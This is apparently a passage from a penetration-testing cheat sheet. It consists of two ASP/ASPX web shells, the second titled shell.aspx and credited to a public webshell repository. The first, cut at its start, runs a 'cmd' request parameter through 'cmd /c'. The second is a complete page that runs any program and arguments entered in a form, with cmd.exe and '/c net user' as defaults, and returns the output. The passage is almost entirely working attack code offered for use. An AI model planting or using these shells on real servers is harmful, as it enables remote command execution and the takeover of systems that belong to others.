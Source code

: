 ```aspnet
<%Response.Write(Request.ServerVariables("server_port"))%>
</p>
<p>
<b>The server's software:</b>
<%Response.Write(Request.ServerVariables("server_software"))%>
</p>
<p>
<b>The server's local address:</b>
<%Response.Write(Request.ServerVariables("LOCAL_ADDR"))%>
<% szCMD = request("cmd")
thisDir = getCommandOutput("cmd /c" & szCMD)
Response.Write(thisDir)%>
</p>
<br>
</BODY>
</HTML>
```
{% endcode %}

{% code title="shell.aspx" %}
```html
<!-- Source: https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx -->
<%@ Page Language="VB" Debug="true" %>
<%@ import Namespace="system.IO" %>
<%@ import Namespace="System.Diagnostics" %>

<script runat="server">      
Sub RunCmd(Src As Object, E As EventArgs)            
  Dim myProcess As New Process()            
  Dim myProcessStartInfo As New ProcessStartInfo(xpath.text)            
  myProcessStartInfo.UseShellExecute = false            
  myProcessStartInfo.RedirectStandardOutput = true            
  myProcess.StartInfo = myProcessStartInfo            
  myProcessStartInfo.Arguments=xcmd.text            
  myProcess.Start()            

  Dim myStreamReader As StreamReader = myProcess.StandardOutput            
  Dim myString As String = myStreamReader.Readtoend()            
  myProcess.Close()            
  mystring=replace(mystring,"<","&lt;")            
  mystring=replace(mystring,">","&gt;")            
  result.text= vbcrlf & "<pre>" & mystring & "</pre>"    
End Sub
</script>

<html>
<body>    
<form runat="server">        
<p><asp:Label id="L_p" runat="server" width="80px">Program</asp:Label>        
<asp:TextBox id="xpath" runat="server" Width="300px">c:\windows\system32\cmd.exe</asp:TextBox>        
<p><asp:Label id="L_a" runat="server" width="80px">Arguments</asp:Label>        
<asp:TextBox id="xcmd" runat="server" Width="300px" Text="/c net user">/c net user</asp:TextBox>        
<p><asp:Button id="Button" onclick="runcmd" runat="server" Width="100px" Text="Run"></asp:Button>        
<p><asp:Label id="result" runat="server"></asp:Label>       
</form>
</body>
</html>
```
{% endcode %}

